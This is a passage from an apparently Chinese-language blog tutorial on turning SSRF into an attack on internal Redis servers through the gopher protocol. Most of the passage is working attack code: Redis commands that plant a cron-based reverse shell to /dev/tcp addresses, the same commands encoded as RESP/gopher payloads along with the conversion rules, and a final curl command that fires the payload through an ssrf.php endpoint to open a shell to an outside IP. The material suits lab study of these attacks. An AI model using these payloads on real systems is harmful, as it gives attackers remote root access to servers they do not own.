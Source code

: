 ![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226122258156-404912908.png)

 说我们长度过长，我们重新换一个：

![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226122541663-1781553001.png)

```
*1%0D%0A%247%0D%0ACOMMAND%0D%0A*2%0D%0A%244%0D%0Aecho%0D%0A%243%0D%0A123
```

可以看到输出了123。

![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226122748239-805902371.png)

利用redis未授权访问攻击redis

攻击redis的exp（这个其实利用的就是redis反弹shell的方式）

```
test

set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.110.133/4789 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

aaa
```

从而捕获到数据，并进行转换：

[![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226124316159-1288822610.png)](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211226124316159-1288822610.png)

```
*1%0D%0A%247%0D%0ACOMMAND%0D%0A*3%0D%0A%243%0D%0Aset%0D%0A%245%0D%0Ashell%0D%0A%2464%0D%0A%0D%0A%0D%0A*%2F1%20*%20*%20*%20*%20%2Fbin%2Fbash%20-i%3E%26%2Fdev%2Ftcp%2F192.168.110.141%2F4789%200%3E%261%0D%0A%0D%0A%0D%0A*4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A%2Fvar%2Fspool%2Fcron%2F%0D%0A*4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A*1%0D%0A%244%0D%0Asave
```

 

转换规则如下：

如果第一个字符是>或者<那么丢弃该行字符串，表示请求和返回的时间。

如果前3个字符是+OK 那么丢弃该行字符串，表示返回的字符串。

将r字符串替换成%0d%0a

空白行替换为%0a

结合gopher协议攻击内网redis，使用上边捕获数据的转换结果即可，然后进行反弹shell（192.168.1.4是存在redis未授权访问漏洞的服务器）：



```
curl -v 'http://192.168.1.124:8000/ssrf.php?url=gopher://192.168.1.4:6379/_*1 %250d %250a %248%250d %250aflushall %250d %250a %2a3 %250d %250a %243%250d %250aset %250d %250a %241%250d %250a1 %250d %250a %2464%250d %250a %250d %250a %250a %250a %2a %2f1 %20%2a %20%2a %20%2a %20%2a %20bash %20-i %20%3E %26%20%2fdev %2ftcp %2f121.36.67.230 %2f5555 %200%3E %261%250a %250a %250a %250a %250a %250d %250a %250d %250a %250d %250a %2a4 %250d %250a %246%250d %250aconfig %250d %250a %243%250d %250aset %250d %250a %243%250d %250adir %250d %250a %2416%250d %250a %2fvar %2fspool %2fcron %2f %250d %250a %2a4 %250d %250a %246%250d %250aconfig %250d %250a %243%250d %250aset %250d %250a %2410%250d %250adbfilename %250d %250a %244%250d %250aroot %250d %250a %2a1 %250d %250a %244%250d %250asave %250d %250aquit %250d %250a'
```
